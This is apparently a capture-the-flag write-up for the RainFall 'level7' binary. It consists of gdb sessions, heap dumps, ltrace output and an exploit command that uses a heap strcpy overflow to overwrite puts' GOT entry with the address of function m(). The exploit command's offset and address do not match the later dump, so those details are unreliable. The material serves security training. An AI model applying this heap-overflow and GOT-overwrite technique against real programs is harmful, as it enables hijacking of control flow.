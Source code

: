 ```
0x080484f4  m
0x08048521  main
```

./level7 $(python -c 'print "A" * 21 + "\x08\x04\x84\xf4"[::-1]') "BBBBBBBB"

```
(gdb) x 0x8049960
0x8049960 <c>:	 ""
  
(gdb) p 0x44
$6 = 68
  
(gdb) x 0x8048703
0x8048703:	 "~~"
```
  
```
(gdb) run "AAAABBBBCCCCDDDD" "ZZZZ1111"

(gdb) x/60wx 0x804a000
  
0x804a000:	0x00000000	0x00000011	0x00000001	0x0804a018
0x804a010:	0x00000000	0x00000011	0x41414141	0x42424242
0x804a020:	0x43434343	0x44444444	0x00000000	0x0804a038
0x804a030:	0x00000000	0x00000011	0x5a5a5a5a	0x31313131

(gdb) p/c 0x5a = 'Z'
 
 argv1 write at the heap pointed by p/x 0x804a010+8 = 0x804a018
 argv2                              0x804a038

confirmed by ltrace

level7@RainFall:~$ ltrace ./level7 AAAAAAAA BBBBBBBB

  strcpy(0x0804a018, "AAAAAAAA")
  strcpy(0x0804a038, "BBBBBBBB")

 ```
  
  ```
   0x080485f7 <+214>:	call   0x8048400 <puts@plt>
  
  (gdb) disass 0x8048400
    Dump of assembler code for function puts@plt:
   0x08048400 <+0>:	jmp    *0x8049928
  ```
  
  address of puts `0x8049928` and address of m() function `0x080484f4`
  
  
  
  after srcpy 1
  ```
  "--------------HEAP------------"
0x804a000:	0x00000000	0x00000011	0x00000001	0x0804a018
0x804a010:	0x00000000	0x00000011	0x41414141	0x41414141
0x804a020:	0x41414141	0x41414141	0x41414141	0x08049928
```
after strcpy2
```
puts@plt:
   0x08048400 <+0>:	jmp    *0x8049928
   
(gdb) x 0x8049928
0x8049928 <puts@got.plt>:	0x080484f4

(gdb) x 0x080484f4
0x80484f4 <m>:	0x83e58955
```



  
  
  
  
  

